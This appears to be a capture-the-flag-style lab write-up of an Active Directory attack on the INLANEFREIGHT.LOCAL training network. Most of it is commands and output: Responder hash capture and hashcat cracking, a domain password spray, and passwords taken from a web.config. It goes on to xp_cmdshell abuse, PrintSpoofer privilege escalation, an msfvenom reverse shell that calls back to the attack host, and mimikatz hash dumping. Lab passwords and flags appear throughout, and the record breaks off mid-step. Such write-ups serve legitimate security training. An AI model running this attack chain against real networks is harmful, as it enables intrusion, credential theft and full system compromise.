


# Notes

**10.129.83.248 Enumeration** 

```bash
└──╼ $ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:bf:db brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    inet 10.129.83.248/16 brd 10.129.255.255 scope global dynamic noprefixroute ens192
       valid_lft 2725sec preferred_lft 2725sec
    inet6 dead:beef::a478:81e3:acf4:eb4a/64 scope global dynamic noprefixroute
       valid_lft 86401sec preferred_lft 14401sec
    inet6 fe80::555:c3aa:9d05:c1f6/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:85:4f brd ff:ff:ff:ff:ff:ff
    altname enp19s0
    inet 172.16.7.240/23 brd 172.16.7.255 scope global noprefixroute ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::2957:2d31:5225:229a/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:f3:a2:89:64 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

```bash
└──╼ $route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    100    0        0 ens192
0.0.0.0         172.16.7.1      0.0.0.0         UG    101    0        0 ens224
10.129.0.0      0.0.0.0         255.255.0.0     U     100    0        0 ens192
172.16.6.0      0.0.0.0         255.255.254.0   U     101    0        0 ens224
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
```

```bash
└──╼ $cat /etc/resolv.conf
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

nameserver 1.1.1.1
nameserver 8.8.8.8
```

**Ran nmap to do host and port scanning**

Detailed results here:
* [host scan](./nmap_ping_sweep.txt)
* [port scan](./nmap_top20.txt)

Here's some notes:

| Host      | IP           | Open Ports          | Notes                                              |
| --------- | ------------ | ------------------- | -------------------------------------------------- |
| DC01      | 172.16.7.3   | 53, 135, 139, 445   | SMB signing required                               |
| MS01      | 172.16.7.50  | 135, 139, 445, 3389 | SMB signing not required ⚠️                        |
| SQL01     | 172.16.7.60  | 135, 139, 445, 1433 | MSSQL 2019 SQLEXPRESS; SMB signing not required ⚠️ |
| Parrot VM | 172.16.7.240 | 22, 3389            | Our attack host                                    |


**Updated /etc/hosts**

```bash
sudo tee -a /etc/hosts <<EOF
172.16.7.3    DC01.INLANEFREIGHT.LOCAL DC01 inlanefreight.local
172.16.7.50   MS01.INLANEFREIGHT.LOCAL MS01
172.16.7.60   SQL01.INLANEFREIGHT.LOCAL SQL01
EOF
```

**Ran responder**

```bash
sudo responder -I ens224 -wrfv
```

Got a domain user account: AB920

```bash
AB920::INLANEFREIGHT:57a56b0069c46ab3:8612280B4C1F49D32EA4BFC2F78C508D:01010000000000000036A746F4D6DC01217CBDCD78BB680E000000000200080059005A003200390001001E00570049004E002D004200440034004F004D00470058004F004F004C00410004003400570049004E002D004200440034004F004D00470058004F004F004C0041002E0059005A00320039002E004C004F00430041004C000300140059005A00320039002E004C004F00430041004C000500140059005A00320039002E004C004F00430041004C00070008000036A746F4D6DC0106000400020000000800300030000000000000000000000000200000E3AC3CFF10FD9940872B1A00001805D6ED23A29C57F39B56D3DA1465863303FB0A0010000000000000000000000000000000000009002E0063006900660073002F0049004E004C0041004E0045004600520049004700480054002E004C004F00430041004C00000000000000000000000000
```

Cracked hash using `rockyou` wordlist.

```bash
└──╼ $hashcat -m 5600 ab920_hash.txt --show
AB920::INLANEFREIGHT:57a56b0069c46ab3:8612280b4c1f49d32ea4bfc2f78c508d:01010000000000000036a746f4d6dc01217cbdcd78bb680e000000000200080059005a003200390001001e00570049004e002d004200440034004f004d00470058004f004f004c00410004003400570049004e002d004200440034004f004d00470058004f004f004c0041002e0059005a00320039002e004c004f00430041004c000300140059005a00320039002e004c004f00430041004c000500140059005a00320039002e004c004f00430041004c00070008000036a746f4d6dc0106000400020000000800300030000000000000000000000000200000e3ac3cff10fd9940872b1a00001805d6ed23a29c57f39b56d3da1465863303fb0a0010000000000000000000000000000000000009002e0063006900660073002f0049004e004c0041004e0045004600520049004700480054002e004c004f00430041004c00000000000000000000000000:weasal
```

**Confirmed AB920 creds work for MS01**


```bash
┌─[htb-student@skills-par01]─[~/raw_data]
└──╼ $crackmapexec smb MS01 -u AB920 -p weasal
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         172.16.7.50     445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.7.50     445    MS01             [+] INLANEFREIGHT.LOCAL\AB920:weasal
```

**Was able RDP to MS01 with AB920 creds**


**Got flag from MS01**

```powershell
C:\Users\AB920>cd c:\

c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72

 Directory of c:\

04/11/2022  10:19 PM                24 flag.txt
02/25/2022  11:20 AM    <DIR>          PerfLogs
04/11/2022  10:00 PM    <DIR>          Program Files
04/01/2022  10:11 AM    <DIR>          Program Files (x86)
04/20/2022  06:51 AM    <DIR>          Users
04/20/2022  05:31 AM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  18,935,783,424 bytes free

c:\>type flag.txt
aud1t_gr0up_m3mbersh1ps!
```

Searched for [creds](./cred_file_hunt.txt) and [connection strings](./connection_string_search.txt).

**Did DomainPasswordSpay**

Found creds: `BR086:Welcome1`

```powershell
PS C:\Users\AB920\Desktop> Import-Module .\DomainPasswordSpray.ps1;
PS C:\Users\AB920\Desktop> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_welcome1_ms01.txt
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 2899 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2899 users gathered from the current user's domain
[*] The domain password policy observation window is set to 30 minutes.
[*] Setting a 30 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2899 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2899 users. Current time is 11:29 PM
[*] SUCCESS! User:BR086 Password:Welcome1
[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_welcome1_ms01.txt
```

## Enumerating BR086 on MS01

```
C:\Users\BR086>whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
inlanefreight\br086 S-1-5-21-3327542485-274640656-2609762496-4612


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
INLANEFREIGHT\IT-Managers                  Group            S-1-5-21-3327542485-274640656-2609762496-1618 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```
C:\Users\BR086>net user BR086 /domain
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    BR086
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/1/2022 10:03:25 AM
Password expires             Never
Password changeable          4/1/2022 10:03:25 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/1/2026 5:12:01 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *IT-Managers          *Domain Users
The command completed successfully.
```

No admininstrator rights

```
C:\Users\BR086>cd c:\Users\Administrator
Access is denied.
```

```
┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/part2/raw_data]
└─$ crackmapexec smb MS01 SQL01 DC01 -u BR086 -p Welcome1 --shares
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [+] INLANEFREIGHT.LOCAL\BR086:Welcome1
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [+] INLANEFREIGHT.LOCAL\BR086:Welcome1
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [+] Enumerated shares
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            Share           Permissions     Remark
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            -----           -----------     ------
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            ADMIN$                          Remote Admin
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            C$                              Default share
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            IPC$            READ            Remote IPC
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [+] Enumerated shares
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             Share           Permissions     Remark
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             -----           -----------     ------
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             ADMIN$                          Remote Admin
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             C$                              Default share
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             IPC$            READ            Remote IPC

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/part2/raw_data]
└─$ crackmapexec smb MS01 SQL01 DC01 -u AB920 -p weasal --shares
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [+] INLANEFREIGHT.LOCAL\AB920:weasal
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [+] INLANEFREIGHT.LOCAL\AB920:weasal
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             [+] Enumerated shares
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             Share           Permissions     Remark
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             -----           -----------     ------
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             ADMIN$                          Remote Admin
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             C$                              Default share
SMB         MS01.INLANEFREIGHT.LOCAL 445    MS01             IPC$            READ            Remote IPC
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            [+] Enumerated shares
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            Share           Permissions     Remark
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            -----           -----------     ------
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            ADMIN$                          Remote Admin
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            C$                              Default share
SMB         SQL01.INLANEFREIGHT.LOCAL 445    SQL01            IPC$            READ            Remote IPC
```

```
└─$ crackmapexec mssql SQL01 -u BR086 -p Welcome1
MSSQL       SQL01.INLANEFREIGHT.LOCAL 1433   SQL01            [*] Windows 10 / Server 2019 Build 17763 (name:SQL01) (domain:INLANEFREIGHT.LOCAL)
MSSQL       SQL01.INLANEFREIGHT.LOCAL 1433   SQL01            [-] INLANEFREIGHT.LOCAL\BR086:Welcome1 name 'logging' is not defined
```

**Bloodhound on BR086 didn't reveal any useful paths or privileges**



It was interesting that there was no results for smb shares from DC01. Tried again using `smbmap` and `crackmapexec` but with IP for crackmapexec.

```
┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/part2/raw_data]
└─$ crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 --shares
SMB         172.16.7.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.7.3      445    DC01             [+] INLANEFREIGHT.LOCAL\BR086:Welcome1
SMB         172.16.7.3      445    DC01             [+] Enumerated shares
SMB         172.16.7.3      445    DC01             Share           Permissions     Remark
SMB         172.16.7.3      445    DC01             -----           -----------     ------
SMB         172.16.7.3      445    DC01             ADMIN$                          Remote Admin
SMB         172.16.7.3      445    DC01             C$                              Default share
SMB         172.16.7.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.7.3      445    DC01             IPC$            READ            Remote IPC
SMB         172.16.7.3      445    DC01             NETLOGON        READ            Logon server share
SMB         172.16.7.3      445    DC01             SYSVOL          READ            Logon server share
```

```
└─$ smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 172.16.7.3:445  Name: DC01.INLANEFREIGHT.LOCAL  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Department Shares                                       READ ONLY       Share for department users
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
[*] Closed 1 connections
```

It's revelating that there's actually smbshares to access. We should take note of this learning.

Found creds in [web.config](./172.16.7.3-Department%20Shares_IT_Private_Development_web.config) from [enumerating SMB shares of DC01](./BR086_dc01_shares_recurs.log). 

```
       <connectionStrings>
           <add name="ConString" connectionString="Environment.GetEnvironmentVariable("computername")+'\SQLEXPRESS';Initial Catalog=Northwind;User ID=netdb;Password=D@ta_bAse_adm1n!"/>
       </connectionStrings>
```

## Enumerating SQL01 with netdb creds

```bash
└─$ impacket-mssqlclient netdb:'D@ta_bAse_adm1n!'@172.16.7.60
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (netdb  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    download {from} {to}       - downloads file from the SQLServer host {from} to {to}
    show_query                 - show query
    mask_query                 - mask query

SQL (netdb  dbo@master)> enable_xp_cmdshell
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (netdb  dbo@master)> xp_cmdshell 'dir C:\Users\ /b';
ERROR(SQL01\SQLEXPRESS): Line 1: Incorrect syntax near 'dir'.
SQL (netdb  dbo@master)> xp_cmdshell "dir C:\Users\ /b";
output
---------------------------
Administrator
administrator.INLANEFREIGHT
lab_adm
mssqlsvc
Public
NULL
SQL (netdb  dbo@master)> xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt";
output
-----------------
Access is denied.
NULL
SQL (netdb  dbo@master)>
```

Checked out priv of netdb on `SQL01`

```
Here's priv of net_db

```
SQL (netdb  dbo@master)> xp_cmdshell "whoami /all"
output
--------------------------------------------------------------------------------
NULL
USER INFORMATION
----------------
NULL
User Name                   SID
=========================== ===============================================================
nt service\mssql$sqlexpress S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133
NULL
NULL
GROUP INFORMATION
-----------------
NULL
Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users    Alias            S-1-5-32-558 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT SERVICE\ALL SERVICES              Well-known group S-1-5-80-0   Mandatory group, Enabled by default, Enabled group
NULL
NULL
PRIVILEGES INFORMATION
----------------------
NULL
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
NULL
NULL
USER CLAIMS INFORMATION
-----------------------
NULL
User claims unknown.
NULL
Kerberos support for Dynamic Access Control on this device has been disabled.
NULL
```

```
SQL (netdb  dbo@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee    grantor
----------   --------   ---------------   ----------   --------   ----------------------------
b'USER'      msdb       IMPERSONATE       GRANT        dc_admin   MS_DataCollectorInternalUser
SQL (netdb  dbo@master)>
```

```
SQL (netdb  dbo@master)> enum_logins
name                                 type_desc       is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin
----------------------------------   -------------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------
sa                                   SQL_LOGIN                 1          1               0             0            0              0           0           0           0
##MS_PolicyEventProcessingLogin##    SQL_LOGIN                 1          0               0             0            0              0           0           0           0
##MS_PolicyTsqlExecutionLogin##      SQL_LOGIN                 1          0               0             0            0              0           0           0           0
NT SERVICE\SQLWriter                 WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0
NT SERVICE\Winmgmt                   WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0
NT Service\MSSQL$SQLEXPRESS          WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0
SQL01\Administrator                  WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0
BUILTIN\Users                        WINDOWS_GROUP             0          0               0             0            0              0           0           0           0
NT AUTHORITY\SYSTEM                  WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0
NT SERVICE\SQLTELEMETRY$SQLEXPRESS   WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0
netdb                                SQL_LOGIN                 0          1               0             0            0              0           0           0           0
```

Got privesc via [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) from the SQL access. I then created payload for revshell via msfenom.

```
└─$ impacket-mssqlclient netdb:'D@ta_bAse_adm1n!'@172.16.7.60
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (netdb  dbo@master)> upload /tmp/rev.exe C:\Windows\Temp\rev.exe
[+] Data length (b64-encoded): 10.00 KB with MD5: 038479582f75ed71e160d36ee22c965d
[+] Uploading...
[+] Uploaded
[+] certutil -decode "C:\Windows\Temp\rev.exe.b64" "C:\Windows\Temp\rev.exe"
[+] del "C:\Windows\Temp\rev.exe.b64"
[+] certutil -hashfile "C:\Windows\Temp\rev.exe" MD5
[+] MD5 hashes match
SQL (netdb  dbo@master)> xp_cmdshell "C:\Windows\Temp\PrintSpoofer64.exe -i -c C:\Windows\Temp\rev.exe"
SQL (-@master)>
```

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.7.240 LPORT=4444 -f exe -o /tmp/rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: rev.exe
```

Got revshell as NT authority and flag.txt

```
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72

 Directory of c:\Users\Administrator\Desktop

04/11/2022  10:32 PM    <DIR>          .
04/11/2022  10:32 PM    <DIR>          ..
04/11/2022  10:33 PM                21 flag.txt
               1 File(s)             21 bytes
               2 Dir(s)  17,245,675,520 bytes free

c:\Users\Administrator\Desktop>type flag.txt
type flag.txt
s3imp3rs0nate_cl@ssic
```

Uploaded mimikatz and got Administrator hash: `bdaffbfe64f1fc646a3353be1c2c3c99`

## Enum / Access as Administrator

SMB via crackmap failed but via evil-winRM worked. 

```
└─$ crackmapexec smb 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99 --shares
